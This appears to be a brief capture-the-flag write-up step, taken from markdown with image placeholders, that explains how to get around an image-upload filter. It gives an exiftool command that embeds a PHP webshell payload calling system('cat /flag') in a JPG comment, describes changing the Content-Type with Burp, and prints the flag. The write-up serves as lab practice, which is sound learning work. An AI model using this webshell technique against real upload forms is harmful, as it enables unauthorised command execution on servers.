


Here we need to upload our `webshell`, however, it checks whether the uploaded file isn't some specific unallowed file-type, and also trying to resize the image.

So, we will use `exiftool` to insert our webshell in the comment of the `jpg` file.

`exiftool -Comment="<?php echo system('cat /flag'); ?>" webshell.jpg.php`

And then, upload our webshell. I've changed the Content-type using burp

**Flag:** ***`FLAG{thank_you_q-roland}`*** 

